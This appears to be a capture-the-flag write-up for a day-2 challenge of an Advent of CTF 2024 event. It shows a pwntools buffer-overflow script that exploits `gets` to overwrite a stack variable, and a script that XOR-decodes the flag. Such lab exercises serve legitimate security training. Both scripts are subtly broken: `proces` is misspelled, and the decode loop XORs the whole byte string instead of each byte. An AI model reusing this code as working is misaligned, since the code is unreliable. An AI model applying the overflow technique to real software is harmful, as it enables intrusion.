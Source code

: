 <img src="https://github.com/raul-dunca/assets/blob/main/.images_CyberStudents-advent-of-ctf2024/day2_description.png">

For this chall I have 2 solutions.
## Solution 1:
Analyzing the file in dogbolt I saw in the main function a buffer overflow because of the `gets` function:

<img src="https://github.com/raul-dunca/CyberStudents-advent-of-ctf2024/blob/main/.assets/day_2_info1.png">
 
I think this is also the intended solution by the author. The goal of the challenge is to change the value of `local_12` from 0 to something else. This variable is also stored right after the buffer which is used to get the user input. So, using a buffer overflow I can change the value stored in `local_12`.

Below is the solution script. Because the buffer which reads user input has a size of `8166` I need at leas `8167` bytes in the payload:
```python
from pwn import *

binary='chall'
p=proces(binary)
payload=b"A"*8166 + b"\x01"
p.sendline(payload)

output=p.recvall()
print(output)
```
## Solution 2:
In dogbolt I can also see the win function and what it does exactly:

<img src="https://github.com/raul-dunca/CyberStudents-advent-of-ctf2024/blob/main/.assets/day_2_info2.png">

So, for each byte in that hex strings, it just xor it with `0xaa` to print out the flag. I can reverse the logic of this (`A xor 0xaa = B` and `B xor 0xaa = A`):
```python
encoded_flag=b"\xc9\xd9\xce\xd1\xce\x9e\xd3\xf5\x98\xf5\xe2\x9a\xdd\xf5\xd8\xf5\xdf\x95\xd7\x00"
decoded_flag=[]

for i in range (0,len(encoded_flag)):
    decoded_flag.append((encoded_flag^0xaa))

flag=''.join([chr(x) for x in decoded_flag])
print(flag)
```

`csd{d4y_2_H0w_r_u?}`
